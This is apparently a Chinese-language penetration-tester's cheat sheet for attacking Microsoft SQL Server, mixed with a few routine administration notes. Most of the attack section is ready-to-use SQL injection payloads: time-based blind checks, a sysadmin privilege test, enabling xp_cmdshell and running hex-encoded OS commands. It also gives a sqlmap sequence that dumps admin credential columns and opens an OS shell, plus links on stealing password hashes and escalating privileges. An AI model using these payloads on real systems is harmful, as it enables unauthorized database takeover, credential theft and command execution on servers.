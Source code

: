 # SqlServer

端口 1433

**工具**

- SQLTools 2.0

## 注入

```sql
';declare @x char(9);set @x=0x303a303a35;waitfor delay @x--         # 例如我想执行延时5s，先将'0:0:5'转为十六进制 : 27303a303a3527
admin';declare @x char(9);if((select IS_SRVROLEMEMBER('sysadmin'))=1) waitfor delay '0:0:5'--   # 判断sa权限
# 开启xpcmshell：
admin';declare @x char(9);EXEC sp_configure 'show advanced options',1;RECONFIGURE;
EXEC sp_configure 'xp_cmdshell',1;RECONFIGURE;
# 判断开启xpcmdshell:
admin';declare @x char(9);if((select count(*) from master.dbo.sysobjects where xtype='x' and name='xp_cmdshell')=1) waitfor delay '0:0:4'--
# 执行命令, 16进制编码一下
admin';declare @x char(8000);set @x=0x70696e6720312e312e312e31;waitfor exec master..xp_cmdshell @x--
```

## SqlServer 2000 在 win7x64 安装条件

1.计算机名更改为全用大写字符就可以了。 2.设置 SETUPSQL.exe 兼容性为 winxp, 管理员身份证运行

## 转义

sqlsserver 用"" 来转义 "

## 删除/备份/导入导出

cracer.mdf
cracer_log.ldf

两个文件都要备份提取。

数据库 Path: C:\Progran Files\Microsoft SQL Server\MSSQL10_50.HSSOLSERVER\MSSQL\DATA

## 数据库权限

```
sa权限 - system
db权限 - users-adminstrators
public - guest-users
```

```bash
sqlmap -u http://url.php?id=1 --current-db --batch # 得到test
sqlmap -u http://url.php?id=1 --current-user
sqlmap -u http://url.php?id=1 --is-dba
sqlmap -u http://url.php?id=1 -D test --tables           # 得到admin
sqlmap -u http://url.php?id=1 -D test -T admin --columns # 得到admin,pass
sqlmap -u http://url.php?id=1 -D test -T admin -C admin,pass --dump
sqlmap -u http://url.php?id=1 -D test -T admin -C admin,pass --dump --hex
sqlmap -u http://url.php?id=1 --os-shell
```

## config 密码等

在 asp web 的目录下

web.config

## 命令执行

方法一：xp_cmdshell

exec master..xp_cmdshell "whoami"默认执行是关闭

https://blog.csdn.net/weixin_30654583/article/details/97225375

## 查询语句

## 查询日志访问 ip/数据库

查询指定数据库

```sql
-- sqlserver
SELECT c.client_net_address, s.database_id, DB_NAME(s.database_id) AS database_name, s.login_name, s.login_time
FROM sys.dm_exec_connections AS c
JOIN sys.dm_exec_sessions AS s ON c.session_id = s.session_id
-- WHERE DB_NAME(s.database_id) = 'test1' -- 指定数据库
ORDER BY s.login_time DESC;

-- mysql
SELECT HOST, DB FROM information_schema.processlist

-- oracle
SELECT DISTINCT MACHINE, PROGRAM, LOGON_TIME FROM V$SESSION WHERE TYPE='USER' ORDER BY LOGON_TIME DESC;
```

# Article

[窃取 MSSQL 各版本密码 HASH](https://mp.weixin.qq.com/s/w9NqP4AqDth6sLbHAPF4AQ)
[sql server 提权总结](https://mp.weixin.qq.com/s/3Q6meWdMLfls5cK1j80tFw)
[MSSQL 注入和漏洞利用姿势总结](https://mp.weixin.qq.com/s/OakfrGRvYPYGFLY_30aj5w)
[红队必修课之针对 MSSQL 数据库攻击尝试](https://forum.butian.net/share/1390)
[关于 mssql 注入的知识分享](https://mp.weixin.qq.com/s/sXt9zd18lD4Al4OC3mmsKw)
[MSSQL 渗透 tips 总结](https://mp.weixin.qq.com/s/TjZGGQY9blMMv-ERtCklDw)

[XP_CmdShell平替CLR的基础利用](https://mp.weixin.qq.com/s/KFniCQMJ0ApCW68CqecIaQ)